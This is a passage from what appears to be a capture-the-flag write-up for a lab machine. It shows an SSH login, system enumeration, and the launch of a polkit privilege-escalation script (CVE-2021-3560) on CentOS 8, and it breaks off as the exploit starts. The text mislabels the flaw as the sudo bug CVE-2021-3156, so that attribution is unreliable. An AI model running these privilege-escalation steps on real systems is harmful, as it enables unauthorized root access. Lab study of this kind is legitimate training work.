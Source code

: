 ```console
└─╼$ ssh dwight@$IP
dwight@10.10.11.143's password:
Activate the web console with: systemctl enable --now cockpit.socket

Last login: Tue Feb  1 09:14:33 2022 from 10.10.14.23
[dwight@paper ~]$ id
uid=1004(dwight) gid=1004(dwight) groups=1004(dwight)
[dwight@paper ~]$ uname -a
Linux paper 4.18.0-348.7.1.el8_5.x86_64 #1 SMP Wed Dec 22 13:25:12 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
```

## Privilege Escalation

Enumerate using linpeas and find sudo version is vulnerable: **CVE-2021-3156**

- [secnigma/CVE-2021-3560-Polkit-Privilege-Esclation](https://github.com/secnigma/CVE-2021-3560-Polkit-Privilege-Esclation)
- [Privilege escalation with polkit: How to get root on Linux with a seven-year-old bug](https://github.blog/2021-06-10-privilege-escalation-polkit-root-on-linux-with-bug/)
- [CVE-2021-3560- Red Hat Customer Portal](https://access.redhat.com/security/cve/cve-2021-3560)

```console
[dwight@paper Rocket.Chat]$ sudo --version
Sudo version 1.8.29
Sudoers policy plugin version 1.8.29
Sudoers file grammar version 46
Sudoers I/O plugin version 1.8.29

[dwight@paper Rocket.Chat]$ cat /etc/*-release
CentOS Linux release 8.5.2111
NAME="CentOS Linux"
VERSION="8"
ID="centos"
ID_LIKE="rhel fedora"
VERSION_ID="8"
PLATFORM_ID="platform:el8"
PRETTY_NAME="CentOS Linux 8"
ANSI_COLOR="0;31"
CPE_NAME="cpe:/o:centos:centos:8"
HOME_URL="https://centos.org/"
BUG_REPORT_URL="https://bugs.centos.org/"
CENTOS_MANTISBT_PROJECT="CentOS-8"
CENTOS_MANTISBT_PROJECT_VERSION="8"
CentOS Linux release 8.5.2111
CentOS Linux release 8.5.2111
```

**Exploit**:

```console
[dwight@paper shm]$ bash CVE-2021-3156.sh -u=qwe -p=qwe
[!] Username set as : qwe
[!] No Custom Timing specified.
[!] Timing will be detected Automatically
[!] Force flag not set.
[!] Vulnerability checking is ENABLED!
[!] Starting Vulnerability Checks...
[!] Checking distribution...
[!] Detected Linux distribution as "centos"
[!] Checking if Accountsservice and Gnome-Control-Center is installed
[+] Accounts service and Gnome-Control-Center Installation Found!!
[!] Checking if polkit version is vulnerable
[+] Polkit version appears to be vulnerable!!
[!] Starting exploit...
```